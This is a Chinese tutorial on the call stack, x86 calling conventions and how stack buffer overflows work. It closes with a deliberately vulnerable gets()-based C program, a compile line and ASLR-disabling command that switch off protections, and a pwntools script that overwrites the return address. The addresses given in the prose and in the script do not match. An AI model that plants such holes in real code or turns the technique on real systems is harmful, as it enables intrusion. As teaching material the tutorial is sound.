










# 栈介绍及栈溢出原理

栈是一种典型的后进先出 (Last in First Out) 的数据结构，其操作主要有压栈 (push) 与出栈 (pop) 两种操作。高级语言在运行时都会被转换为汇编程序，在汇编程序运行过程中，充分利用了这一数据结构。每个程序在运行时都有虚拟地址空间，其中某一部分就是该程序对应的栈，用于保存函数调用信息和局部变量。此外，常见的操作也是压栈与出栈。需要注意的是，程序的栈是从进程地址空间的高地址向低地址增长的。

## [c语言的函数调用栈](https://www.cnblogs.com/clover-toeic/p/3755401.html)

程序的执行过程可看作连续的函数调用。当一个函数执行完毕时，程序要回到调用指令的下一条指令(紧接call指令)处继续执行。函数调用过程通常使用堆栈实现，每个用户态进程对应一个调用栈结构(call stack)。编译器使用堆栈传递函数参数、保存返回地址、临时保存寄存器原有值(即函数调用的上下文)以备恢复以及存储本地局部变量。

### 栈帧结构

函数调用经常是嵌套的，在同一时刻，堆栈中会有多个函数的信息。每个未完成运行的函数占用一个独立的连续区域，称作栈帧(Stack Frame)。栈帧是堆栈的逻辑片段，当调用函数时逻辑栈帧被压入堆栈, 当函数返回时逻辑栈帧被从堆栈中弹出。栈帧存放着函数参数，局部变量及恢复前一栈帧所需要的数据等。
栈帧的边界由栈帧基地址指针EBP(帧指针）和堆栈指针ESP(栈指针)界定(指针存放在相应寄存器中)。EBP指向当前栈帧底部(高地址)，在当前栈帧内位置固定；ESP指向当前栈帧顶部(低地址)，当程序执行时ESP会随着数据的入栈和出栈而移动。因此函数中对大部分数据的访问都基于EBP进行。
主调函数将参数按照调用约定依次入栈，然后将指令指针EIP入栈以保存主调函数的返回地址。进入被调函数时，被调函数将主调函数的帧基指针EBP入栈，并将主调函数的栈顶指针ESP值赋给被调函数的EBP，接着改变ESP值来为函数局部变量预留空间。此时被调函数帧基指针指向被调函数的栈底。以该地址为基准，向上(栈底方向)可获取主调函数的返回地址、参数值，向下(栈顶方向)能获取被调函数的局部变量值，而该地址处又存放着上一层主调函数的帧基指针值。本级调用结束后，将EBP指针值赋给ESP，使ESP再次指向被调函数栈底以释放局部变量；再将已压栈的主调函数帧基指针弹出到EBP，并弹出返回地址到EIP。ESP继续上移越过参数，最终回到函数调用前的状态，即恢复原来主调函数的栈帧。
在多线程(任务)环境，栈顶指针指向的存储器区域就是当前使用的堆栈。切换线程的一个重要工作，就是将栈顶指针设为当前线程的堆栈栈顶地址。
 内存地址从栈底到栈顶递减，压栈就是把ESP指针逐渐往地低址移动的过程。而结构体tStrt中的成员变量memberX地址=tStrt首地址+(memberX偏移量)，即越靠近tStrt首地址的成员变量其内存地址越小。因此，结构体成员变量的入栈顺序与其在结构体中声明的顺序相反。

### 堆栈操作

函数调用时的具体步骤如下：

1. 主调函数将被调函数所要求的参数，根据相应的函数调用约定，保存在运行时栈中。该操作会改变程序的栈指针。

2. 主调函数将控制权移交给被调函数(使用call指令)。函数的返回地址(待执行的下条指令地址)保存在程序栈中(压栈操作隐含在call指令中)。

3. 若有必要，被调函数会设置帧基指针，并保存被调函数希望保持不变的寄存器值。

4. 被调函数通过修改栈顶指针的值，为自己的局部变量在运行时栈中分配内存空间，并从帧基指针的位置处向低地址方向存放被调函数的局部变量和临时变量。

5. 被调函数执行自己任务，此时可能需要访问由主调函数传入的参数。若被调函数返回一个值，该值通常保存在一个指定寄存器中(如EAX)。

6. 一旦被调函数完成操作，为该函数局部变量分配的栈空间将被释放。这通常是步骤4的逆向执行。

7. 恢复步骤3中保存的寄存器值，包含主调函数的帧基指针寄存器。

8. 被调函数将控制权交还主调函数(使用ret指令)。根据使用的函数调用约定，该操作也可能从程序栈上清除先前传入的参数。

9. 主调函数再次获得控制权后，可能需要将先前的参数从栈上清除。在这种情况下，对栈的修改需要将帧基指针值恢复到步骤1之前的值。

> 步骤3与步骤4在函数调用之初常一同出现，统称为函数序(prologue)；步骤6到步骤8在函数调用的最后常一同出现，统称为函数跋(epilogue)。除步骤5代表函数实体外，其它所有操作组成函数调用。

使用C调用约定的被调函数典型的函数序和函数跋(函数序和函数跋是编译器自动添加的开始和结束汇编代码，其实现与CPU架构和编译器相关。)实现如下：



若主调函数和调函数均未使用局部变量寄存器EDI、ESI和EBX，则编译器无须在函数序中对其压栈，以便提高程序的执行效率。
压栈方式:



方式二中主调函数在调用返回后并未显式清理堆栈空间。因为在被调函数序阶段，编译器在栈顶为函数参数预先分配内存空间(sub指令)。函数参数被复制到栈中(而非压入栈中)，并未修改栈顶指针，故调用返回时主调函数也无需修改栈顶指针。连续调用多个函数时，方式二仅需预先分配一次参数内存(大小足够容纳参数尺寸和最大的函数即可)，后续调用无需每次都恢复栈顶指针。

> 注意，函数被调用时，两种方式均使栈顶指针指向函数最左边的参数。

### 函数调用约定

函数调用约定通常规定如下几方面内容：

1. 函数参数的传递顺序和方式

    最常见的参数传递方式是通过堆栈传递。主调函数将参数压入栈中，被调函数以相对于帧基指针的正偏移量来访问栈中的参数。对于有多个参数的函数，调用约定需规定主调函数将参数压栈的顺序(从左至右还是从右至左)。某些调用约定允许使用寄存器传参以提高性能。

2. 栈的维护方式

    主调函数将参数压栈后调用被调函数体，返回时需将被压栈的参数全部弹出，以便将栈恢复到调用前的状态。该清栈过程可由主调函数负责完成，也可由被调函数负责完成。

3. 名字修饰(Name-mangling)策略

    又称函数名修饰(Decorated Name)规则。编译器在链接时为区分不同函数，对函数名作不同修饰。

若函数之间的调用约定不匹配，可能会产生堆栈异常或链接错误等问题。因此，为了保证程序能正确执行，所有的函数调用均应遵守一致的调用约定。

#### 常见的调用约定

1. cdecl调用约定

    又称C调用约定，是C/C++编译器默认的函数调用约定。所有非C++成员函数和未使用stdcall或fastcall声明的函数都默认是cdecl方式。函数参数按照从右到左的顺序入栈，函数调用者负责清除栈中的参数，返回值在EAX中。由于每次函数调用都要产生清除(还原)堆栈的代码，故使用cdecl方式编译的程序比使用stdcall方式编译的程序大(后者仅需在被调函数内产生一份清栈代码)。但cdecl调用方式支持可变参数函数(即函数带有可变数目的参数，如printf)，且调用时即使实参和形参数目不符也不会导致堆栈错误。对于C函数，cdecl方式的名字修饰约定是在函数名前添加一个下划线；对于C++函数，除非特别使用extern "C"，C++函数使用不同的名字修饰方式。

2. stdcall调用约定(微软命名)

    Pascal程序缺省调用方式，WinAPI也多采用该调用约定。stdcall调用约定主调函数参数从右向左入栈，除指针或引用类型参数外所有参数采用传值方式传递，由被调函数负责清除栈中的参数，返回值在EAX中。stdcall调用约定仅适用于参数个数固定的函数，因为被调函数清栈时无法精确获知栈上有多少函数参数；而且如果调用时实参和形参数目不符会导致堆栈错误。对于C函数，stdcall名称修饰方式是在函数名字前添加下划线，在函数名字后添加@和函数参数的大小，如_functionname@number。

3. fastcall调用约定

    stdcall调用约定的变形，通常使用ECX和EDX寄存器传递前两个DWORD(四字节双字)类型或更少字节的函数参数，其余参数按照从右向左的顺序入栈，被调函数在返回前负责清除栈中的参数，返回值在 EAX 中。因为并不是所有的参数都有压栈操作，所以比stdcall和cdecl快些。编译器使用两个@修饰函数名字，后跟十进制数表示的函数参数列表大小(字节数)，如@function_name@number。需注意fastcall函数调用约定在不同编译器上可能有不同的实现，比如16位编译器和32位编译器。另外，在使用内嵌汇编代码时，还应注意不能和编译器使用的寄存器有冲突。

4. thiscall调用约定

    C++类中的非静态函数必须接收一个指向主调对象的类指针(this指针)，并可能较频繁的使用该指针。主调函数的对象地址必须由调用者提供，并在调用对象非静态成员函数时将对象指针以参数形式传递给被调函数。编译器默认使用thiscall调用约定以高效传递和存储C++类的非静态成员函数的this指针参数。
    thiscall调用约定函数参数按照从右向左的顺序入栈。若参数数目固定，则类实例的this指针通过ECX寄存器传递给被调函数，被调函数自身清理堆栈；若参数数目不定，则this指针在所有参数入栈后再入栈，主调函数清理堆栈。thiscall不是C++关键字，故不能使用thiscall声明函数，它只能由编译器使用。
    注意，该调用约定特点随编译器不同而不同，g++中thiscall与cdecl基本相同，只是隐式地将this指针当作非静态成员函数的第1个参数，主调函数在调用返回后负责清理栈上参数；而在VC中，this指针存放在%ecx寄存器中，参数从右至左压栈，非静态成员函数负责清理栈上参数。

5. naked call调用约定

    对于使用naked call方式声明的函数，编译器不产生保存(prologue)和恢复(epilogue)寄存器的代码，且不能用return返回返回值(只能用内嵌汇编返回结果)，故称naked call。该调用约定用于一些特殊场合，如声明处于非C/C++上下文中的函数，并由程序员自行编写初始化和清栈的内嵌汇编指令。注意，naked call并非类型修饰符，故该调用约定必须与__declspec同时使用
6. pascal调用约定

    Pascal语言调用约定，参数按照从左至右的顺序入栈。Pascal语言只支持固定参数的函数，参数的类型和数量完全可知，故由被调函数自身清理堆栈。pascal调用约定输出的函数名称无任何修饰且全部大写。
    Win3.X(16位)时支持真正的pascal调用约定；而Win9.X(32位)以后pascal约定由stdcall约定代替(以C约定压栈以Pascal约定清栈)。



> 注：C++因支撑函数重载、命名空间和成员函数等语法特征，采用更为复杂的名字修饰策略。C++函数修饰名以"?"开始，后面紧跟函数名、参数表开始标识和按照类型代号拼出的返回值参数表。例如，函数int Function(char *var1,unsigned long)对应的stdcall修饰名为"?Function@@YGHPADK@Z"

Windows下可直接在函数声明前添加关键字`__stdcall、__cdecl或__fastcall`等标识确定函数的调用方式，如`int __stdcall func()`。Linux下可借用函数attribute 机制，如`int __attribute__((__stdcall__)) func()`。

被调函数CalleeFunc分别声明为cdecl、stdcall和fastcall约定时，其汇编代码比较如下表所示：



#### 调用约定影响

在多语言混合编程(包括A语言中使用B语言开发的第三方库)时，若函数的原型声明和函数体定义不一致或调用函数时声明了不同的函数约定，将可能导致严重问题(如堆栈被破坏)。
不同编译器产生栈帧的方式不尽相同，主调函数不一定能正常完成清栈工作；而被调函数必然能自己完成正常清栈，因此，在跨(开发)平台调用中，通常使用stdcall调用约定(不少WinApi均采用该约定)。
此外，主调函数和被调函数所在模块采用相同的调用约定，但分别使用C++和C语法编译时，会出现链接错误(报告被调函数未定义)。这是因为两种语言的函数名字修饰规则不同，解决方式是使用extern "C"告知主调函数所在模块：被调函数是C语言编译的。采用C语言编译的库应考虑到使用该库的程序可能是C++程序(使用C++编译器)，声明头文件：

```c++
    #ifdef _cplusplus
        extern "C" {
    #endif
        type Func(type para);
    #ifdef _cplusplus
        }
    #endif
```

#### x86函数参数传递方法

x86处理器ABI规范中规定，所有传递给被调函数的参数都通过堆栈来完成，其压栈顺序是以函数参数从右到左的顺序。当向被调函数传递参数时，所有参数最后形成一个数组。由于采用从右到左的压栈顺序，数组中参数的顺序(下标0~N-1)与函数参数声明顺序(Para1~N)一致。因此，在函数中若知道第一个参数地址和各参数占用字节数，就可通过访问数组的方式去访问每个参数。

- 整型和指针参数

整型参数与指针参数的传递方式相同，因为在32位x86处理器上整型与指针大小相同(均为四字节)



- 浮点参数的传递

    浮点参数的传递与整型类似，区别在于参数大小。x86处理器中浮点类型占8个字节，因此在栈中也需要占用8个字节。

    

- 结构体和联合体参数的传递

    结构体和联合体参数的传递与整型、浮点参数类似，只是其占用字节大小视数据结构的定义不同而异。x86处理器上栈宽是4字节，故结构体在栈上所占用的字节数为4的倍数。编译器会对结构体进行适当的填充以使得结构体大小满足4字节对齐的要求。

#### x86函数返回值传递方法

函数返回值可通过寄存器传递。当被调用函数需要返回结果给调用函数时：

1. 若返回值不超过4字节(如int、short、char、指针等类型)，通常将其保存在EAX寄存器中，调用方通过读取EAX获取返回值。

2. 若返回值大于4字节而小于8字节(如long long或_int64类型)，则通过EAX+EDX寄存器联合返回，其中EDX保存返回值高4字节，EAX保存返回值低4字节。

3. 若返回值为浮点类型(如float和double)，则通过专用的协处理器浮点数寄存器栈的栈顶返回。

4. 若返回值为结构体或联合体，则主调函数向被调函数传递一个额外参数，该参数指向将要保存返回值的地址。即函数调用foo(p1, p2)被转化为foo(&p0, p1, p2)，以引用型参数形式传回返回值。具体步骤可能为：
    a. 主调函数将显式的实参逆序入栈；
    b. 将接收返回值的结构体变量地址作为隐藏参数入栈(若未定义该接收变量，则在栈上额外开辟空间作为接收返回值的临时变量)；
    c. 被调函数将待返回数据拷贝到隐藏参数所指向的内存地址，并将该地址存入%eax寄存器。因此，在被调函数中完成返回值的赋值工作。

> 注意，函数如何传递结构体或联合体返回值依赖于具体实现。不同编译器、平台、调用约定甚至编译参数下可能采用不同的实现方法。
> 不要返回指向栈内存的指针，如返回被调函数内局部变量地址(包括局部数组名)。因为函数返回后，其栈帧空间被“释放”，原栈帧内分配的局部变量空间的内容是不稳定和不被保证的。
> 函数返回值通过寄存器传递，无需空间分配等操作，故返回值的代价很低。基于此原因，C89规范中约定，不写明返回值类型的函数，返回值类型默认为int。但这会带来类型安全隐患，如函数定义时返回值为浮点数，而函数未声明或声明时未指明返回值类型，则调用时默认从寄存器EAX(而不是浮点数寄存器)中获取返回值，导致错误！因此在C++中，不写明返回值类型的函数返回值类型为void，表示不返回值。

## x86和x86_64

- x86
    函数参数在函数返回地址的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 RDI, RSI, RDX, RCX, R8 和 R9 寄存器中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，6 个字节长度，否则会抛出异常。

##　栈溢出原理

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。发生溢出的前提是:

- 程序必须向栈上写入数据
- 写入的数据大小没有被良好的控制

### 实例

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址(这个地址有可执行权限)

```c++
    // stack_example.c
    #include <stdio.h>
    #include <string.h>
    void success() { puts("You Hava already controlled it."); }
    void vulnerable() {
    char s[12];
    gets(s);
    puts(s);
    return;
    }
    int main(int argc, char **argv) {
    vulnerable();
    return 0;
    }
```

> gcc -m32 -fno-stack-protector stack_example.c -o stack_example



gets本身是一个危险函数,它从不检查字符串的长度,而是以回车来判断输入是否结束
gcc 编译指令中，`-m32` 指的是生成 32 位程序； `-fno-stack-protector` 指的是不开启堆栈溢出保护，即不生成 canary。 对于 `PIE（Position Independent Executable）`,不同 gcc 版本对于 PIE 的默认配置不同，可以使用命令gcc -v查看 gcc 默认的开关情况。如果含有`--enable-default-pie`参数则代表 PIE 默认已开启，需要在编译指令中添加参数-no-pie。

对于ASLR(地址空间分布随机化),可以通过修改 /proc/sys/kernel/randomize_va_space 来控制 ASLR 启动与否:

- 0，关闭 ASLR，没有随机化。栈、堆、`.so` 的基地址每次都相同。
- 1，普通的 ASLR。栈基地址、mmap 基地址、`.so` 加载基地址都将被随机化，但是堆基地址没有随机化。
- 2，增强的 ASLR，在 1 的基础上，增加了堆基地址随机化。

可以使用`echo 0 > /proc/sys/kernel/randomize_va_space`关闭 Linux 系统的 ASLR，类似的，也可以配置相应的参数。

通过ida或者objdump可以看到success的地址为0x08043b



根据汇编代码可以确定偏移为0x14



形成脚本

```python
    from pwn import *

    p = process('./stack_example')
    payload = 'A'*(0x14+4) + p32(0x0804843b) # +4是为了覆盖到返回地址
    p.sendline(payload)
    print p.recv()
```



### 栈溢出的步骤

1. 寻找危险函数

    常见的危险函数:

    函数名|说明
    :--:|--
    gets | 直接读取一行,忽略'\x00'
    scanf   | 获取输入
    vscanf  | 获取输入
    sprintf | 输出
    strcpy  | 字符串复制,遇到'\x00'停止
    strcat  | 字符串拼接,遇到'\x00'停止
    bcopy   | 字符串

2. 确定填充长度

    即计算输入的起始地址到返回地址的偏移量,常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

    - 相对于栈基地址的的索引，可以直接通过查看 EBP 相对偏移获得
    - 相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
    - 直接地址索引，就相当于直接给定了地址。

    覆盖需求:

    - 覆盖函数返回地址(EBP)。
    - 覆盖栈上某个变量的内容。
    - 覆盖 .bss 段某个变量的内容。
    - 根据现实执行情况，覆盖特定的变量或地址的内容。
